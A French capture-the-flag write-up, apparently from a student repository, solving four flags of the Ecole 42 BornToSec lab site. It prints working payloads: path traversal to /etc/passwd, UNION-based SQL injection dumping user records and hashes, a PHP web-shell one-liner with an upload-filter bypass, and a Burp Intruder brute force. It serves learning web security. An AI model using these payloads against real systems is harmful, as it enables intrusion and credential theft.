









# Résolution des CTF – Ecole 42 – BornToSec

## Flag 1 : Path Traversal

**[1] Identification du point d’entrée**

Lors de la navigation, certaines sections comme **Survey** ou **Member** sont accessibles via des URLs structurées ainsi :

```
http://<ip>/index.php?page=survey
```

→  Le paramètre `page` détermine la ressource affichée par l’application.
→  Comme il s'agit d'une entrée utilisateur, il constitue un vecteur d’attaque potentiel.
→  Hypothèse : l’application effectue un `include` ou une lecture de fichier basée sur ce paramètre, sans filtrage.

---

**[2] Exploitation – Path Traversal**

Un test avec un payload classique de traversal permet de confirmer la vulnérabilité :

Payload injecté :

```
../../../../../../../../../../../../etc/passwd
```

Requête construite :

```
/?page=../../../../../../../../../../../../etc/passwd
```

Résultat :

- Le serveur interprète le chemin fourni.
- Le fichier `/etc/passwd` est lu et affiché.
- Le flag est récupéré dans une alerte :

```
b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 
```

La vulnérabilité est donc confirmée.

---

**[3] Actions de remédiation**

- **Mesure 1 : Validation stricte des entrées utilisateurs**

    - Limiter les valeurs possibles du paramètre page à une liste blanche (ex. : `survey`, `member`).
    - Bloquer toute tentative contenant `../`, `./` ou des schémas suspects.

- **Mesure 2 : Normalisation et contrôle des chemins**

    - Utiliser des fonctions comme `realpath()` (PHP) ou équivalent pour résoudre le chemin complet.
    - Vérifier ensuite que ce chemin commence bien par le répertoire autorisé.
    - Cette approche empêche toute sortie du répertoire prévu, même en cas d’encodage ou de séquences de traversal.

- **Note :** Ces mesures ne couvrent pas tous les cas. D’autres bonnes pratiques existent (permissions système, configuration serveur, tests réguliers). Consultez les références ci‑dessous pour aller plus loin.

- **Références :**

    - OWASP - Path Traversal : https://owasp.org/www-community/attacks/Path_Traversal
    - PortSwigger - Path traversal : https://portswigger.net/web-security/file-path-traversal

---------

## Flag 2 : Injection SQL

**[1] Identification du point d’entrée**

Sur la page **Member**, nous avons constaté qu’une injection SQL était possible grâce au payload suivant : 

```sql 
1' OR 1=1 --
```

Après avoir cliqué sur **Submit**, l’application renvoie l’erreur suivante :

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\' OR 1=1 --' at line 1
```

Cette erreur confirme que l'application est vulnérable aux injections SQL.

Nous avons ensuite essayé un payload plus simple :

```sql
1 OR 1=1
```

Résultat affiché :

```sql
ID: 1 OR 1=1 
First name: one
Surname : me

ID: 1 OR 1=1 
First name: two
Surname : me

ID: 1 OR 1=1 
First name: three
Surname : me

ID: 1 OR 1=1 
First name: Flag
Surname : GetThe
```

Cela prouve que la requête SQL retourne plusieurs enregistrements au lieu d’un seul, confirmant la présence d’une **injection SQL** exploitable.

---

**[2] Exploration de la base de données**

Nous savons que la base `information_schema` est une base par défaut de MySQL qui contient la description des tables et colonnes.

Les informations sur cette base sont documentée dans le [Manuel de référence MySQL 5.0 de Developpez.com](https://mysql.developpez.com/tutoriels/manuel-de-reference-mysql-5-0/?page=La-base-de-donnees-d-informations-INFORMATION-SCHEMA).

En utilisant une requête `UNION`, nous avons pu lister les tables de la base courante :

```sql
1 UNION SELECT NULL, TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA = DATABASE()
```

Résultat :

```
Surname : users
```

Une table `users` existe dans la base.

Ensuite, nous avons listé les colonnes de cette table :

```sql
1 UNION SELECT NULL, COLUMN_NAME FROM information_schema.columns WHERE TABLE_SCHEMA = DATABASE()
```

Résultat :

```sql
Surname : user_id
Surname : first_name
Surname : last_name
Surname : town
Surname : country
Surname : planet
Surname : Commentaire
Surname : countersign
```

Nous avons identifié toutes les colonnes de la table `users`.

---

**[3] Extraction des données utilisateurs**

En combinant les colonnes avec `CONCAT_WS` (concaténation avec séparateur) et `CAST` (conversion en chaîne), nous avons pu afficher les données complètes des utilisateurs :

```sql
1 UNION SELECT NULL, CAST(CONCAT_WS(CHAR(124), user_id, first_name, last_name, town, country, planet, `Commentaire`, countersign) AS CHAR) FROM users
```

Résultat :

```
Surname : 1|one|me|Paris |France|EARTH|Je pense, donc je suis|2b3366bcfd44f540e630d4dc2b9b06d9

Surname : 2|two|me|Helsinki|Finlande|Earth|Aamu on iltaa viisaampi.|60e9032c586fb422e2c16dee6286cf10

Surname : 3|three|me|Dublin|Irlande|Earth|Dublin is a city of stories and secrets.|e083b24a01c483437bcf4a9eea7c1b4d

Surname : 5|Flag|GetThe|42|42|42|Decrypt this password -> then lower all the char. Sh256 on it and it's good !|5ff9d0165b4f92b14994e5c685cdce28
```

Le flag se trouve pour l’utilisateur `GetThe`.

```
5ff9d0165b4f92b14994e5c685cdce28
```

---------

## Flag 3 : Upload de fichier

**[1] Identification de la fonctionnalité**

Dans l’application, depuis la page d’accueil, le bouton **ADD IMAGE** permet d’accéder à une fonctionnalité d’upload de fichier.

<div align="center">

</div>

On remarque que l’upload attend une image.

---

**[2] Premier test**

Créons un fichier de test :

```bash
echo "Ceci est un test." > files/flag3/test.jpng
```

En l’uploadant, on constate que seule l’extension `.jpg` et `.jpeg` sont acceptées. Il y a probablement d’autres extensions d’images aussi.

<div align="center">

</div>

---

**[3] Tentative d’upload malveillant**

Essayons d’uploader un script PHP :

```bash
echo "<?php system($_GET['cmd']); ?>" > files/flag3/test-malveillant.php
```

<div align="center">

</div>

Cela échoue, probablement à cause de filtres sur l’extension, le type MIME ou la signature magique du fichier.

---

**[4] Bypass des contrôles**

On tente de modifier le type MIME en interceptant la requête avec Caido (outil similaire à Burp Suite). On remplace `Content-Type: application/x-php` par `Content-Type: image/jpeg`.

<div align="center">

</div>

Résultat : L’image n’est pas uploadée.

<div align="center">

</div>

---

**[5] Double extension**

On essaie alors une double extension :

```
cp files/flag3/test-malveillant.php files/flag3/test-malveillant.php.jpg
```

Cette fois, l’upload passe :

<div align="center">

</div>

Mais aucun flag n’est retourné.

---

**[6] Modification du paramètre**

On remarque que le paramètre `Upload` doit être remplacé par `send` :

```
------boundary
Content-Disposition: form-data; name="Upload"

send
------boundary--
```

Cela ne fonctionne pas directement.

---

**[7] Exploitation avec curl**

On utilise alors `curl` pour forcer l’upload :

Créer un fichier vide 

```bash
touch files/flag3/empty.php
```

Forcer l'upload

```bash
curl -X POST \
  -H 'Content-Type: multipart/form-data' \
  -F 'Upload=send' \
  -F 'uploaded=@files/flag3/empty.php;type=image/jpeg' \
  http://<IP>/index.php?page=upload
```

Résultat :

```
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/></center> </pre><pre>/tmp/empty.php succesfully uploaded.</pre>
```

Flag obtenu :

```
46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```

---------

## Flag 4 : Brute Force

**[1] Identification du point d’entrée**

Dans l’application, en cliquant sur le bouton **SIGN IN**, on accède à une page de connexion.

<div align="center">

</div>

N’ayant aucun indice particulier, nous supposons que le compte `admin` existe et tentons une attaque par brute force.

---

**[2] Capture de la requête**

On saisit les identifiants `admin:test` et on capture la requête avec **Burp Suite** :

<div align="center">

</div>

La requête est ensuite envoyée dans **Burp Intruder**. Nous plaçons le marker `§` sur la valeur `test` dans `password=test` :

<div align="center">

</div>

---

**[3] Lancement de l’attaque**

Nous chargeons une wordlist classique, par exemple `/usr/share/wordlists/rockyou.txt` disponible sur Kali Linux :

<div align="center">

</div>

L’attaque est lancée avec le bouton **Start Attack**.<br>
Nous filtrons ensuite les résultats par **Response received** pour identifier la réponse correcte :

<div align="center">

</div>

Après l’attaque brute force, nous obtenons le flag suivant :

```
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```

---------